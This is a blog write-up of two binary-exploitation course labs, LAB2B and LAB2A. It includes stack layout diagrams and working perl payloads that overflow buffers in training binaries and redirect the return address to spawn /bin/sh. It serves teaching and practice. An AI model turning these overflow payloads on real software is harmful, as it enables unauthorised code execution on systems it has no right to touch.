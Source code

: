 ```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab02 write-up"
author: A1phaZer0
layout: post
category: HackING
---
```

**LAB2B:**
```bash
+===============+
|_____argv______|
|_____argc______|
|_____ret_______|
|____oldebp_____|<- ebp_main
|               |
|               |
|_______________|(pointer to '/bin/sh')
|__p_to_string__|
|_____ret_______|
|___ebp_main____|<- ebp_print_name
|               |
|               |
|_______________|
|__p_to_string__|
|_____dest______|(ebp_print_name-0x17)
```
<!--more-->
Now, it's clear, we just need 0x17 bytes to override until `ebp_print_name`, then 4 bytes to override `ebp_print_name`, then 4 bytes to override `ret`, we can redirect `ret` to function `shell`.  
After returning from `print_name`, `esp` will point to `p_to_string`, since function `shell` use `ebp-0x8` as argument, so we need put pointer to '/bin/sh' into somewhere 4 bytes after `p_to_string`.
```bash
$ ./lab2B $( perl -e 'print "A"x27 . "\xbd\x86\x04\x08" . "\xd0\x87\x04\x08"x2' )
```
**LAB2A:**
```bash
+===============+
|______ret______|
|____old_ebp____|<- ebp_c
|               |
|               |
|_______________|<- ebp_c - 0x14
|_ebp_c_-_0x14__|<- ebp_c - 0x18
|_______i_______|
|               |
|               |
|               |
|_______________|<- ebp_c - 0x28
|_______________|
|_______________|
|_____0x10______|<- 'size' argument in fgets(), means 15 chars at most.
|_ebp_c_-_0x28__|
```
`i` is a counter, starts from `0x0` to `0x9`, everytime fgets() reads a string to `ebp_c - 0x28`, `i` increases by 1, then one character is taken to `ebp_c - 0x14`.  
Since there are 12 bytes between `ebp_c - 0x28` and i, but fgets() can at most read 15 characters, so we can override i, by that `ret` will also be modified.
```bash
$ for i in $( seq 1 24 ); do perl -e 'print "a" x 12 . "\x0a"'; done > /tmp/abc
$ perl -e 'print "\xfd" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x86" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x04" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "\x08" x 12 . "\x0a"' >> /tmp/abc
$ perl -e 'print "a" x 11 . "\x0a"' >> /tmp/abc
$ for i in $( seq 1 10 ); do perl -e 'print "a" x 10 . "\x0a"'; done >> /tmp/abc
$ { cat /tmp/abc; echo "whoami"; } | ./lab2A
```
**NOTICE:**
+ `\x0a` also is `\n`.  
+ In both cases, we expect to run `system('/bin/sh')`, but there're tiny differences between LAB2B and LAB2A.  
  In LAB2B you will finally get an interactive shell, because new shell will inherit standard input as it's input.  
  In LAB2A new shell is connected to a pipe(buffer), when left command-list finished there will be an `EOF` and pipe will be closed so does the new shell. So we need to override `i` back to 0(NULL, fgets() can do it), to make sure fgets() read enough data and finish properly, in the end `whoami` will not be swallowed but redirected to the new shell.

